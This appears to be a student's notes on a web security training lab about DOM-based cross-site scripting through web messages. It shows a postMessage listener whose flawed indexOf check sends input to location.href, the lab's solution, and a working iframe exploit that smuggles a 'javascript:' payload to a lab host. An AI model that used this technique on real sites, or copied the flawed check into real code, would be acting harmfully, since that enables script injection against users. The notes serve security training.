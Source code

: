 Vulnerable code

```javascript
<script>
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
</script>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
				<ol>
					<li>
						Notice that the home page contains an <code>addEventListener()</code> call that listens for a web message. The JavaScript contains a flawed <code>indexOf()</code> check that looks for the strings <code>"http:"</code> or <code>"https:"</code> anywhere within the web message. It also contains the sink <code>location.href</code>.
					</li>
					<li>
						<p>
							Go to the exploit server and add the following <code>iframe</code> to the body, remembering to replace <code>your-lab-id</code> with your lab ID:
						</p>
						<code class="code-scrollable">&lt;iframe src="https://your-lab-id.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')"&gt;</code>
					</li>
					<li>
						Store the exploit and deliver it to the victim.
					</li>
				</ol>
			<p>
				This script sends a web message containing an arbitrary JavaScript payload, along with the string <code>"http:"</code>. The second argument specifies that any <code>targetOrigin</code> is allowed for the web message.
			</p>
			<p>
				When the <code>iframe</code> loads, the <code>postMessage()</code> method sends the JavaScript payload to the main page. The event listener spots the <code>"http:"</code> string and proceeds to send the payload to the <code>location.href</code> sink, where the <code>print()</code> function is called.
			</p>
			</div>
        </div>


exploit

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 1;
        z-index: 1;
    }
</style>
<iframe src="https://0a5500f5030fdb0ec0ae430a00e300fa.web-security-academy.net" onload="this.contentWindow.postMessage('javascript:print()//http://123','*')">
```
